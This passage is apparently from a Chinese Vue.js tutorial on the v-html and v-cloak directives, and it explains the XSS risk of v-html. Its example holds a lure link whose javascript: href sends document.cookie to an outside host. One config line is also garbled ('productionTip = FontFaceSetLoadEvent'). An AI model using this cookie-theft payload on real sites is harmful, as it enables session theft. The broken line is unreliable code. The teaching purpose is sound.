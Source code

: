 原因:不是v-html有问题,而是我们渲染的东西可能有问题,可能会有人通过js代码获取cookie并发送(但是如今的HttpOnly已经解决了这个问题)

```html
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```

## v-cloak

cloak:遮盖,披风

内部指令（没有值）

a 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
b 使用css配合v-cloak可以解决网速慢<sup>[1]</sup>时页面展示出`{{xxx}}`的页面渲染不完全等问题

> [1]网速慢

一般体现是引入js慢,没有加载出来而导致的JS阻塞

JS阻塞:当引入JS外部标签时没有引入成功,界面将会陷入阻塞,后面的html代码不执行,等待js引入成功再执行

```html
//案例1
// 够延迟5秒收到vue.js
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
//引入后,模板放入页面,同时vue代码执行接管容器重新解析,渲染页面
<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>

<script type="text/javascript">
  console.log(1)
  Vue.config.productionTip = false
  new Vue({
    el:'#root',
    data:{name:'尚硅谷'}
  })
</script>

//案例2
//模板放入页面显示{{name}}
<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>
// 够延迟5秒收到vue.js
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
//此时vue代码接管容器重新解析,渲染页面,页面显示尚硅谷
```